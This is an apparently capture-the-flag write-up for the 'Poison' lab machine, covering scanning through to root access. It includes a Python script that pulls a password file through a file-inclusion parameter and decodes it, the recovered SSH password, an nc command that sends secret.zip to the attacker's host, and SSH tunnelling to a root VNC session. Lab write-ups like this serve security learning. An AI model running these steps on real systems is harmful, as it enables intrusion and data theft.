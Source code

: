 # Poison

Start with the usual `nmap` scan to figure out what ports are open. 

`nmap 10.10.10.84 -sC -sV -vvvv --top-ports 10000`

Looks like there is a webserver running, so lets `dirb` that isht and figure out what's on it!

`dirb http://10.10.10.84`

Found a file called `pwdbackup.txt` that was encoded 13 times in base64.

```
import base64
import requests
import re
import string
import paramiko

print "[*] Connecting to target..."

r = requests.get('http://10.10.10.84/browse.php?file=pwdbackup.txt')

full = r.text

blah = full.replace("This password is secure, it's encoded atleast 13 times.. what could go wrong really..", "")

print "[*] Stripping useless text from start of file..."

password = []

def decodeThings(n):
    return base64.b64decode(n)

if __name__ == '__main__':

    print "[*] Performing 13 base64 decodes..."

    for i in range(13):
        password = decodeThings(blah)
        blah = password

    print "[*] Password is: " + password

    # Use password to SSH into box and spawn a shell
    
    print "[*] Spawning SSH Session..."

```

That should do the job nicely for extracting the password from there. 

> Charix!2#4%6&8(0

Let's try using that with the `ssh` port we found.

`ssh charix@10.10.10.84`

And we're in!

`ls -la`

Hmmm

`cat user.txt`

Let's steal this `secret.zip` file as well.

`nc <myip> <port> < secret.zip` (on remote)

`nc -lvnp <port> > secret.zip`

We can open that using the password we found earlier!

`unzip secret.zip`

`cat secret`

Then we need to decode it.

`https://github.com/jeroennijhof/vncpwd` This will do nicely.

`gcc -o vncpwd vncpwd.c d3des.c`

`./vncpwn ../secret`

Now what?

`ps aux`

Hey, theres a vncserver running as root on this box...

`ssh -L 5900:127.0.0.1:5901 charix@10.10.10.84`

That will create an ssh tunnel to the box and will allow us to connect to its `vnc` server using our local machine (127.0.0.1)

`vncviewer` (enter server `127.0.0.1:5900` and the password that we got from decoding `secret.zip`)

Done, rooted! :) 